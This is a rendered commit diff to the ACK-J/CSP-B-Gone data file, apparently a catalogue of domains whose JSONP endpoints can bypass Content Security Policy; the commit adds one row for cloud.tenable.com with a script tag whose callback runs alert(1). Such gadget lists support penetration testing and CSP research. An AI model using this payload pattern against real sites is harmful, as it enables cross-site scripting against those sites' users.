

Before and after one commit to ACK-J/CSP-B-Gone, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
added cloud.tenable.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 307: cloud.tenable.com <script src="https://cloud.tenable.com/provisioning/v1/evaluation/invalid-domains?callback=alert%281%29"></script>
```
